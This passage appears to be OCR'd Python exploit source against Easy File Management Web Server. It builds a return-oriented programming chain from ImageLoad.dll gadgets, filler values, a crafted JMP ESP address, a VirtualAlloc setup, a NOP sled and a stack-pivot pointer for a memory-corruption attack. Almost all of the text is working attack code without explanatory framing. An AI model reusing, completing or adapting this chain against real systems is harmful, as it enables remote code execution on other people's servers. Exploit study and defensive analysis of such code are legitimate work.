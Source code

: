 ```python
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  #[---INFO:gadgets_to_set_ebp:---]
	  base_ImageLoad_dll + 0x00015442,  # POP EAX # RETN [ImageLoad.dll]
	  0xA445ABCF,						# Since 0x00 would break the exploit, the 0x00457452 (JMP ESP [fmws.exe]) needs to be crafted on the stack
	  0x1001a187,						# ADD EAX,5BFFC883 # RETN [ImageLoad.dll] # finish crafting JMP ESP
	  0x1002466d,						# PUSH EAX # RETN [ImageLoad.dll]
	  base_ImageLoad_dll + 0x0001add7,  # POP EBP # RETN [ImageLoad.dll]
	  #[---INFO:gadgets_to_set_edi:---]
	  base_ImageLoad_dll + 0x00015d89,  # POP EDI # RETN [ImageLoad.dll] 
	  base_ImageLoad_dll + 0x0001a858,  # RETN (ROP NOP) [ImageLoad.dll]
	  #[---INFO:gadgets_to_set_esi:---]
	  base_ImageLoad_dll + 0x0001b0cb,  # POP ESI # RETN [ImageLoad.dll]
	  0x75cf1856, 						# Valloc	  
	  #base_ImageLoad_dll + 0x00021e9d,  # JMP [EAX] [ImageLoad.dll]
	  #base_ImageLoad_dll + 0x00015442,  # POP EAX # RETN [ImageLoad.dll] 
	  #base_ImageLoad_dll + 0x0004d1fc,  # ptr to &VirtualAlloc() [IAT ImageLoad.dll]
	  #[---INFO:pushad:---]
	  base_ImageLoad_dll + 0x000240c2, 	 # PUSHAD # RETN [ImageLoad.dll] 
	  #[---INFO:extras:---]
	  #0x00000000,  # <- Unable to find ptr to 'jmp esp'
	  #0x10002682,
	]
	return ''.join(pack('<I', _) for _ in rop_gadgets)

# [ImageLoad.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\EFS Software\Easy File Management Web Server\ImageLoad.dll)
base_ImageLoad_dll = 0x10000000
rop_chain = create_rop_chain(base_ImageLoad_dll)

junk0 = "\x90" * 80

# Instead of bruteforcing the stack address, let's take an address
# from the .text segment, which is near to the stackpivot instruction:
# 0x1001d89b : {pivot 604 / 0x25c} # POP EDI # POP ESI # POP EBP # POP EBX # ADD ESP,24C # RETN [ImageLoad.dll] 
# The memory located at 0x1001D8F0: "\x7A\xD8\x01\x10" does the job!
# Due to call dword ptr [edx+28h]: 0x1001D8F0 - 28h = 0x1001D8C8
old_call_edx=pack('<L',0x1001D8C8) 


```